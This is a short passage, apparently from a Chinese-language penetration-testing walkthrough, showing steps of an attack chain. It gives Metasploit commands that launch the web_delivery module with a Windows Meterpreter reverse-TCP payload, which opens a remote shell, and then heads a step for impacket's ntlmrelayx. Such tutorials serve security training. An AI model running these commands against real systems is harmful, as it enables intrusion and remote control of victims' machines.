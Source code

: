 [![](assets/1701222524-9ddf2ec01c3c56bed91183eda9193a37.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144811-18e6d4f8-8dba-1.png)  
Step 2：启动 MSF 的 exploit/multi/script/web\_delivery 模块

```plain
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
run
```

[![](assets/1701222524-e479f9ed95d1f026099de749deb3c196.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144838-291949be-8dba-1.png)  
Step 3：启动 impacket 的 ntlmrelayx 模块
